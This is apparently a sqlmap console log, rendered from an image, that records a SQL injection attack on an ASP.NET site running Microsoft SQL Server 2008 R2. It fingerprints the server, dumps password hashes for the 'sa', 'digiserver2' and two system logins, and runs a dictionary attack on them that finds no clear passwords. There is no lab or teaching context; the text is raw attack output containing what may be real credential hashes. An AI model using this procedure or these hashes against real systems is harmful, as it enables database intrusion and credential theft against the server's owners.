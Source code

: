 ```bash!
[09:56:37] [INFO] resumed: 'Microsoft SQL Server 2008 R2 (SP3-GDR) (KB4532096) - 10.50.6592.0 (X64) \n\tNov 27 2019 02:04:59 \n\tCopyright (c) Microsoft Corporation\n\tStandard Edition (64-bit) on Window...
web server operating system: Windows 7 or 2008 R2
web application technology: ASP.NET, Microsoft IIS 7.5
back-end DBMS operating system: Windows 7 or 2008 R2 Service Pack 1
back-end DBMS: Microsoft SQL Server 2008
banner:
---
Microsoft SQL Server 2008 R2 (SP3-GDR) (KB4532096) - 10.50.6592.0 (X64)
        Nov 27 2019 02:04:59
        Copyright (c) Microsoft Corporation
        Standard Edition (64-bit) on Windows NT 6.1 <X64> (Build 7601: Service Pack 1) (Hypervisor)
---
[09:56:37] [INFO] fetching database users password hashes
[09:56:38] [INFO] retrieved: '##MS_PolicyEventProcessingLogin##'
[09:56:38] [INFO] retrieved: '0x010015f08012ec58ab631b9abc2c70033ac143253a92c912fd51'
[09:56:38] [INFO] retrieved: '##MS_PolicyTsqlExecutionLogin##'
[09:56:38] [INFO] retrieved: '0x01001b9662cf7dc02cff283914d8bdd9c0acdccd5a2381a7f785'
[09:56:38] [INFO] retrieved: 'digiserver2'
[09:56:39] [INFO] retrieved: '0x0100e39f2df9dd121c21c1fb653d33f4f383a27ecda6872198b5'
[09:56:39] [INFO] retrieved: 'sa'
[09:56:39] [INFO] retrieved: '0x0100b3827d3dc443dbe09c400e8d1dd36277d6da32073ebc52b2'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] Y
[09:56:39] [INFO] using hash method 'mssql_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[09:56:39] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[09:56:39] [INFO] starting dictionary-based cracking (mssql_passwd)
[09:56:39] [WARNING] multiprocessing hash cracking is currently not supported on this platform
[10:01:16] [WARNING] no clear password(s) found
database management system users password hashes:
[*] ##MS_PolicyEventProcessingLogin## [1]:
    password hash: 0x010015f08012ec58ab631b9abc2c70033ac143253a92c912fd51
        header: 0x0100
        salt: 15f08012
        mixedcase: ec58ab631b9abc2c70033ac143253a92c912fd51

[*] ##MS_PolicyTsqlExecutionLogin## [1]:
    password hash: 0x01001b9662cf7dc02cff283914d8bdd9c0acdccd5a2381a7f785
        header: 0x0100
        salt: 1b9662cf
        mixedcase: 7dc02cff283914d8bdd9c0acdccd5a2381a7f785

[*] digiserver2 [1]:
    password hash: 0x0100e39f2df9dd121c21c1fb653d33f4f383a27ecda6872198b5
        header: 0x0100
        salt: e39f2df9
        mixedcase: dd121c21c1fb653d33f4f383a27ecda6872198b5

[*] sa [1]:
    password hash: 0x0100b3827d3dc443dbe09c400e8d1dd36277d6da32073ebc52b2
        header: 0x0100
        salt: b3827d3d
        mixedcase: c443dbe09c400e8d1dd36277d6da32073ebc52b2


```